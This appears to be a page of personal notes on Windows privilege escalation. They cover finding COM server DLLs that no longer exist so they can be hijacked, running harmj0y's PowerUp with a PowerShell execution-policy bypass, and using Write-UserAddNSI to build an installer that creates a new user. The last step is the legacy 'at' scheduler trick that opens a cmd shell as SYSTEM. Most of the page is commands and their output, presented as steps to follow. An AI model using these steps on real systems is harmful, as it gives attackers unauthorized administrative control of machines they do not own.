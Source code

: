 ### In Powershell:
```
$inproc = gwmi Win32_COMSetting | ?{ $_.InprocServer32 -ne $null }
$paths = $inproc | ForEach {$_.InprocServer32}
foreach ($p in $paths){$p;cmd /c dir $p > $null} 
```
consider redirecting this output to file for easier analysis.

### Output:
```
C:\Windows\System32\oleaut32.dll
combase.dll
File Not Found				<== this is what we are looking for!!!
%SystemRoot%\system32\windowscodecs.dll
combase.dll
File Not Found				<== this is what we are looking for!!!
C:\Windows\System32\combase.dll
C:\Program Files (x86)\Microsoft\EdgeUpdate\1.3.135.41\psmachine_64.dll
File Not Found				<== this is what we are looking for!!!
C:\Windows\System32\AppIdPolicyEngineApi.dll
AppxDeploymentClient.dll
File Not Found				<== this is what we are looking for!!!
```


## Powerup by harmj0y- priv esc windows:
#### show our user is not currently admin:
```
net localgroup administrators
```
#### start powershell:
```
powershell.exe -exec bypass
```
#### start powerup:
```
.\PowerUp.ps1
Invoke-AllChecks
Write-UserAddNSI
```
creates an app on the desktop for making a new user. 



# "at" command runs as "SYSTEM"
``` 
at 13:01 /interactive cmd
```
